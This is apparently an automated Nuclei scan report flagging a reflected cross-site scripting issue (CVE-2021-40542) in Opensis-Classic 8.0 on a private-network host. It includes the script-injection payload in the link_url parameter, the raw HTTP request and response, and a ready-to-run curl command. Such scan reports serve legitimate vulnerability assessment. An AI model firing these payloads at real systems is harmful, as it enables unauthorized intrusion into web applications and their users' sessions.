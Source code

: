 ### Opensis-Classic 8.0 - Reflected Cross-Site Scripting (CVE-2021-40542) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-40542**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/Ajax_url_encode.php?link_url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:16 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Opensis-Classic 8.0 - Reflected Cross-Site Scripting |
| Authors | alph4byt3 |
| Tags | xss, cve, cve2021, opensis |
| Severity | medium |
| Description | Opensis-Classic Version 8.0 is affected by cross-site scripting. An unauthenticated user can inject and execute JavaScript code through the link_url parameter in Ajax_url_encode.php.
 |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-40542](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-40542) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /Ajax_url_encode.php?link_url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 219
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/Ajax_url_encode.php?link_url=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://github.com/os4ed/opensis-classic/issues/189
- https://nvd.nist.gov/vuln/detail/cve-2021-40542

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36' 'http://192.168.198.179:8080/Ajax_url_encode.php?link_url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)